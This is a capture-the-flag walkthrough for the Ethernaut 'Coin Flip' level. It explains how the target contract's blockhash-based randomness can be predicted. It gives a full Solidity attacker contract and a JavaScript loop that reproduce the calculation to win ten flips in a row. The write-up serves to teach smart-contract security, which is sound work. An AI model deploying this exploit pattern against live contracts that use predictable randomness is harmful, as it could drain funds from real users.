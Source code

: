 # Coin Flip

## Objective

Predict the outcome of a coin flip 10 times in a row by exploiting a vulnerability in the contract’s pseudo-randomness. The goal is to achieve 10 consecutive wins and submit the instance to complete the level.

---

## Getting Started

1. Go to [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)
2. Select the **"Coin Flip"** level
3. Click **“Get new instance”** and approve the transaction in MetaMask
4. The instance is now deployed and available as the `contract` object in the browser console
5. Save the instance address:

  ```js
  contract.address
  ```

---

## Walkthrough

### Step 1: Analyze the Coin Flip Logic

```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1;
```

**Explanation:**
The contract determines the coin flip outcome using the previous block’s hash and a known constant (`FACTOR`). Both values are accessible, allowing you to replicate the logic off-chain or in your own contract to predict the result.

---

### Step 2: Build an Attack Contract

```solidity
pragma solidity ^0.8.0;
interface ICoinFlip {
  function flip(bool _guess) external returns (bool);
  function consecutiveWins() external view returns (uint256);
}

contract CoinFlipAttacker {
  ICoinFlip public target;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _target) {
   target = ICoinFlip(_target);
  }

  function attack() external {
   uint256 blockValue = uint256(blockhash(block.number - 1));
   bool guess = (blockValue / FACTOR) == 1;
   target.flip(guess);
  }
}
```

**Explanation:**
This contract mimics the vulnerable logic and always submits the correct guess by using the same calculation as the target contract.

---

### Step 3: Deploy and Execute the Attack

```js
for (let i = 0; i < 10; i++) {
  await attacker.attack();
}
```

**Explanation:**
Deploy the attacker contract, then call its `attack()` function 10 times (once per block) to increment the `consecutiveWins` counter to 10.

---

## What You Learn

This level teaches the following:

* Pseudo-randomness on-chain is insecure if based on predictable values like blockhash or block number
* How to replicate contract logic to predict outcomes
* The importance of using secure randomness sources in smart contracts
* How contract-to-contract calls can share block context for deterministic attacks

---

## Resources Used

* [Ethernaut Game](https://ethernaut.openzeppelin.com/)
* [Solidity Docs](https://docs.soliditylang.org/)
* [Ethernaut Coin Flip Writeup](https://shubhamm.me/blog/ethernaut_challenges_coin_flip)


